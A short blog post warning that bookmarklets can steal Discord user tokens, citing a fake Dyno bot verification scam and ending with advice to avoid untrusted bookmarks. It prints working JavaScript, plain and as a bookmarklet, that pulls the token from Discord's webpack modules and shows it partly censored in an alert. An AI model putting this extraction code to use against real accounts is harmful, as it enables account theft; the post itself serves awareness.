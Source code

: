 +++
title = "How bookmarks can steal your Discord Token"
date = "2022-05-23"
+++


## What are [Bookmarklets](https://en.wikipedia.org/wiki/Bookmarklet)
> A bookmarklet is a bookmark stored in a web browser that contains JavaScript commands that add new features to the browser. They are stored as the URL of a bookmark in a web browser or as a hyperlink on a web page. Bookmarklets are usually small snippets of JavaScript executed when user clicks on them. When clicked, bookmarklets can perform a wide variety of operations, such as running a search query from selected text or extracting data from a table. 

Bookmarklets are a fantastic way for developers to do simple tasks on websites with the help of the javascript on the website but can also be used for nefarious reasons as shown in this article. Bookmarklets can execute any form of javascript code given to it and also bypass [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) which is used to protect you on the web.


## What can happen on Discord?

This attack vector makes it possible for users to execute arbitrary javascript code on any site, including Discord which can expose your user token (the unique code to your Discord account). 

On a post made on Reddit [Brilliant Method, Get compromised without giving credentials by dragging in bookmark | Dyno Premium Custom Embed misused to verify on a fake dyno domain](https://www.reddit.com/r/discordapp/comments/uv7w5j/brilliant_method_get_compromised_without_giving/) by [u/Meister-9667](https://www.reddit.com/user/Meister-9667/), we can see that a faked version of the popular Discord bot Dyno is used to trick users into adding the bookmarklet to their bookmarks and pressing it as a way to identify themselves on the server.
![](https://cdn.discordapp.com/attachments/928757369767354369/978387128193019954/ezgif.com-gif-maker.gif)

What happens here is that the user is unknowingly giving the attacker their user token.

## How does this work?

Here below you can see a simple version of a token grabber that makes a popup on the screen with the two last parts of the token censored.

```js
let token;

webpackChunkdiscord_app.push([
    [Math.random()],
    {},
    r => {
       token = Object.values(r.c)
            .find(m => m.exports && m.exports.default && m.exports.default.getToken !== void 0)
            .exports.default.getToken();
    },
]);

alert(`${token.split(".")[0]}.██.███████`); // parts of the token is censored
```  

But we can convert the following code to a bookmarklet to test it out. Here below is the above code in a bookmarklet-friendly syntax. Now we can add this to our browser and press it on the Discord website and boom you lost access to your account.

```js
javascript:(function()%7Blet%20token%3BwebpackChunkdiscord_app.push(%5B%5BMath.random()%5D%2C%7B%7D%2Cr%20%3D%3E%20%7Btoken%20%3D%20Object.values(r.c).find(m%20%3D%3E%20m.exports%20%26%26%20m.exports.default%20%26%26%20m.exports.default.getToken%20!%3D%3D%20void%200).exports.default.getToken()%3B%7D%2C%5D)%3Balert(%60%24%7Btoken.split(%22.%22)%5B0%5D%7D.%E2%96%88%E2%96%88.%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%60)%7D)()
```

![](https://cdn.discordapp.com/attachments/928757369767354369/977938749923156068/iCbGIkjVAl3cjXD.gif)

## So what can be done?
Simple, don't put bookmarks you don't trust. If a bot offers this as a way of verification you should imminently be suspicious and conclude that it's most likely a way to scam you.